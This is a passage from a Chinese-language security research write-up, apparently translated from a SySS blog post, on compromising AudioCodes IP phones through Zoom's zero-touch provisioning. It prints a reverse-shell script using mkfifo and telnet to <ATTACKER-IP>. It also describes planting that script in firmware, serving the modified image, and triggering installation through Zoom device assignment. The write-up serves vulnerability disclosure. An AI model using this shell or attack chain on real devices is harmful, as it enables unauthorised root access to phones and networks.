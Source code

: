 ## 八、攻击链

现在让我们进入更令人激动的环节，我们将利用设备未经核实的所有权和硬件中缺少的不可变可信根来构建一个攻击链。

为了简单证明概念，我们在路径 `/home/ipphone/scripts` 中添加了一个脚本，该脚本利用系统内置工具（即在环境中寻找资源）来启动一个 shell 连接到攻击者的服务器：

```plain
#!/bin/sh

/bin/sleep 120
TF=$(/bin/mktemp -u)
/usr/bin/mkfifo $TF
/usr/bin/telnet <ATTACKER-IP> 5000 0<$TF | /bin/sh 1>$TF
```

随后，脚本的路径被添加到 `/home/ipphone/rcS` 文件中，该文件在系统启动时执行。

被修改的固件映像随后被存储在攻击者控制的服务器上，并通过 HTTP 协议提供。为了触发目标设备下载恶意固件映像，攻击者将其设备的 MAC 地址添加到他们的 Zoom 账户，并分配一个包含从攻击者服务器下载新固件的恶意配置模板（请参阅 “设备分配” 部分）。

现在，通过将设备恢复到出厂设置，设备将经历 AudioCodes 和 Zoom 的配置过程，并从攻击者的服务器下载并安装恶意固件映像。

最后，攻击者的服务器上出现了一个具有 root 权限的 shell：

> [https://blog.syss.com/posts/zero-touch-pwn/#device-assignment](https://blog.syss.com/posts/zero-touch-pwn/#device-assignment)

[![](assets/1710900833-1b726c08954a31238a736b5fdb730eb5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229172450-63a5dd72-d6e4-1.png)

攻击链的流程如下：
